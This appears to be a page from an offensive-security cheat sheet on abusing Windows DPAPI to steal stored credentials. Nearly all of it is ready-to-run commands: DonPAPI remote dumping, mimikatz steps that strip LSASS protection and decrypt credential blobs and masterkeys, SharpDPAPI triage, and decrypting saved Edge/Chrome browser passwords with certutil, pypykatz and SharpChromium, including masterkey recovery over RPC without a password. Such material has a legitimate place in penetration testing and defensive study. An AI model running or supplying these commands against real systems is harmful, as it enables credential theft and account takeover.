 ```yaml
---
title: "DPAPI"
date: 2024-7-31
tags: ["DPAPI", "enum", "Windows", "password", "credentials", "DonPAPI"]
---
```


### Abuse #1: Auto dump (From Linux)

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
DonPAPI collect -d <DOMAIN> -u <USER> -p '<PASSWORD>' -t <TARGET>
```

<small>*Ref: [DonPAPI](https://github.com/login-securite/DonPAPI)*</small>

{{< /tabcontent >}}

### Abuse #1: Auto dump (From Windows)

{{< tab set2 tab1 active >}}mimikatz{{< /tab >}}
{{< tab set2 tab2 >}}SharpDPAPI{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Info Gathering

```console
cmd /c "dir /S /AS C:\Users\<TARGET_UESR>\AppData\Local\Microsoft\Vault & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Local\Microsoft\Credentials & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Local\Microsoft\Protect & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Vault & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Credentials & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Protect"
```

#### 2. Secrets Dump

```console
mimikatz.exe "token::elevate" "!+" "!processprotect /process:lsass.exe /remove" "dpapi::cred /in:C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Credentials\<CREDENTIALS_HASH>"' '"dpapi::masterkey /in:C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Protect\<SID>\<PROTECT_HASH> /sid:<SID> /password:<PASSWORD> /protected"' '"dpapi::cred /in:C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Credentials\<CREDENTIALS_HASH>"' "exit"
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
# Run as system
.\SharpDPAPI.exe machinetriage
```

```console
# Run as user
.\SharpDPAPI.exe credentials /password:'<PASSWORD>'
```

{{< /tabcontent >}}

---

### Abuse #2: Browser Saved Creds

{{< tab set3 tab1 active >}}Manual{{< /tab >}}
{{< tab set3 tab2 >}}Auto{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 1. Prepare logindata and localstate file

```console
# Get Local State json file, copy and paste to local Linux
type "C:\Users\<USER>\appdata\local\microsoft\edge\User Data\Local State"
```

```console
# Get Login Data binary file
certutil -encode "C:\Users\<USER>\appdata\local\microsoft\edge\User Data\Default\Login Data" C:\ProgramData\logindata
```

```console
# Copy and paste to local Linux
type C:\ProgramData\logindata
```

```console
# Base64 decode
cat logindata_b64 | base64 -d > logindata
```

```console
# Extract key from local state
cat localstate | jq -r .os_crypt.encrypted_key | base64 -d | cut -c6- > blob
```

```console
# Get masterkey_guid
pypykatz dpapi describe blob blob
```

<small>*Ref: [pypykatz](https://github.com/skelsec/pypykatz)*</small>

#### 2. Retrieve Keys

```console
# Get master key
certutil -encode "C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<SID>\<MASTERKEY_GUID>" C:\ProgramData\<MASTERKEY_GUID>
```

```console
# Copy and paste to local Linux
type C:\ProgramData\<MASTERKEY_GUID>
```

```console
# Base64 decode
cat masterkey_guid_b64 | base64 -d > masterkey_guid
```

#### 3. Decrypt

```console
pypykatz dpapi prekey password <SID> <USER_PASSWORD> | tee pkf
```

```console
pypykatz dpapi masterkey <MASTERKEY_GUID_FILE> pkf -o mkf
```

```console
pypykatz dpapi chrome --logindata logindata mkf localstate
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
.\SharpChromium.exe logins
```

<small>*Ref: [SharpChromium.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_Any/SharpChromium.exe)*</small>

{{< /tabcontent >}}

---

### Abuse #3: Decrpyt Masterkey without password

{{< tab set4 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
# Take note of the last key
.\mimikatz.exe "dpapi::masterkey /in:C:\users\<USER>\appdata\roaming\microsoft\protect\<SID>\<MASTERKEY_GUID> /rpc" exit
```

```console
# Decrypt
.\mimikatz.exe "dpapi::cred /in:C:\users\<USER>\appdata\roaming\microsoft\protect\<SID>\<MASTERKEY_GUID> /masterkey:<KEY>" exit
```

{{< /tabcontent >}}
